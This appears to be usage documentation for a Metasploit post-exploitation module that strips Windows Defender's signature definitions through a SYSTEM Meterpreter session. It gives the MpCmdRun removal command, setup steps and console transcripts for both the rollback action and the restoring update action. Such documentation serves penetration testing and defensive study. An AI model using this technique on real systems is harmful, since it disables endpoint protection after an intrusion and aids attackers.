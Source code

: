 ## Vulnerable Application
### Overview
This module requires system privs

This module rolls back the signatures in Windows Defender to the
earliest signatures. The level of protection is somewhat indeterminate.
This action is accomplished by running the command:
`MpCmdRun.exe -RemoveDefinitions -All`

To recover, you can run `MpCmdRun.exe -UpdateSignatures`.
That will force Windows Defender to update the signatures
to the latest version available from Microsoft.

## Verification Steps
1. Get a Meterpreter session as the `NT AUTHORITY\SYSTEM` user.
1. `use post/windows/manage/rollback_defender_signatures`
1. `set SESSION <ID of Meterpreter session>`
1. Optionally set the ACTION to run with `set ACTION <action to run>`
1. `run`

## Options
### ACTION
#### ROLLBACK
Rolls the Windows Defender signature definitions back to the earliest available signatures.

### UPDATE
Updates the Windows Defender signature definitions to the latest versions available from Microsoft.

## Scenarios
### ROLLBACK Action on Windows Server 2022
```
msf > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN-BR0CCBA815B  172.28.94.235:45437 -> 172.28.82.203:4444 (172.28
                                                                            .82.203)

msf > use post/windows/manage/rollback_defender_signatures 
msf post(windows/manage/rollback_defender_signatures) > set SESSION 1 
SESSION => 1
msf post(windows/manage/rollback_defender_signatures) > show options

Module options (post/windows/manage/rollback_defender_signatures):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Post action:

   Name      Description
   ----      -----------
   ROLLBACK  Rollback Defender signatures


msf post(windows/manage/rollback_defender_signatures) > run

[*] Removing all definitions for Windows Defender
[*] Running cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
[*] 
Service Version: 4.18.2207.7
Engine Version: 1.1.19600.3
AntiSpyware Signature Version: 1.375.652.0
AntiVirus Signature Version: 1.375.652.0

Starting engine and signature rollback to none...
Done!
[*] Post module execution completed
msf post(windows/manage/rollback_defender_signatures) > 
```

## UPDATE Action on Windows Server 2022
```
msf > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN-BR0CCBA815B  172.28.94.235:45437 -> 172.28.82.203:4444 (172.28
                                                                            .82.203)

msf > use post/windows/manage/rollback_defender_signatures 
msf post(windows/manage/rollback_defender_signatures) > set SESSION 1 
SESSION => 1
msf post(windows/manage/rollback_defender_signatures) > set ACTION UPDATE 
ACTION => UPDATE
msf post(windows/manage/rollback_defender_signatures) > show options

Module options (post/windows/manage/rollback_defender_signatures):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Post action:

   Name    Description
   ----    -----------
   UPDATE  Update Defender signatures


msf post(windows/manage/rollback_defender_signatures) > run

[*] Updating definitions for Windows Defender
[*] Running cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -SignatureUpdate
[*] Signature update started . . .
Service Version: 4.18.2207.7
Engine Version: 1.1.19600.3
AntiSpyware Signature Version: 1.375.652.0
AntiVirus Signature Version: 1.375.652.0
Signature update finished. No updates needed
[*] Post module execution completed
msf post(windows/manage/rollback_defender_signatures) > 
```
